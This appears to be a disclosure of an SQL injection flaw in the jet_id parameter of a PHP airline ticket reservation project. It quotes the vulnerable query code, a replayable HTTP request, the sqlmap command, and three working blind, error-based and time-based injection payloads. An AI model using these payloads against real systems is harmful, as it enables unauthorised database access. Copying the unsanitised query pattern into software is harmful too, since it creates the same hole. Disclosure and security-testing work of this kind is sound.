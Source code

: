 # Airline Ticket Reservation System - SQL Injection on (activate_jet_details_form_handler.php jet_id parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/13529/airline-ticket-reservation-system.html 

## Version:V1.0

## Tested on: PHP, Apache, MySQL

## Affected Page:
activate_jet_details_form_handler.php 

On this page, jet_id parameter is vulnerable to SQL Injection Attack 

## Source Code(airline-ticket-reservation/activate_jet_details_form_handler.php):
```
if(empty($_POST['jet_id']))
	{
		$data_missing[]='Jet ID';
	}
		else
	{
		$jet_id=trim($_POST['jet_id']);
	}
if(empty($data_missing)
	{
		require_once('Database Connection file/mysqli_connect.php');
		$query="UPDATE jet_details SET active='Yes' WHERE jet_id='{$jet_id}'";
}
```

## Proof of vulnerability(Verify using the sqlmap tool after logining):
### Requests:
POST /airline-ticket-reservation/activate_jet_details_form_handler.php HTTP/1.1

Host: localhost

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0

Content-Length: 123

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Language: zh-CN,zh;q=0.9

Cache-Control: max-age=0

Content-Type: application/x-www-form-urlencoded

Cookie: PHPSESSID=g883r0l08f296hfd9582abk9v0

Origin: http://localhost

Referer: http://localhost/airline-ticket-reservation/activate_jet_details.php

Upgrade-Insecure-Requests: 1

Accept-Encoding: gzip

Activate=Activate&jet_id=23412

### -> sqlmap -r 1.txt(above request package) --batch

## Output:

---

Parameter: jet_id (POST)

    Type: boolean-based blind
    
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    
    Payload: Activate=Activate&jet_id=23412%' RLIKE (SELECT (CASE WHEN (8181=8181) THEN 23412 ELSE 0x28 END)) AND 'zUez%'='zUez

    
    Type: error-based
    
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    
    Payload: Activate=Activate&jet_id=23412%' AND GTID_SUBSET(CONCAT(0x71766a7171,(SELECT (ELT(7316=7316,1))),0x716b707071),7316) AND 'rwcr%'='rwcr

    
    Type: time-based blind
    
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP - comment)
    
    Payload: Activate=Activate&jet_id=23412%' OR (SELECT 5838 FROM (SELECT(SLEEP(5)))fGPz)#
    
---
---

[07:33:07] [INFO] the back-end DBMS is MySQL

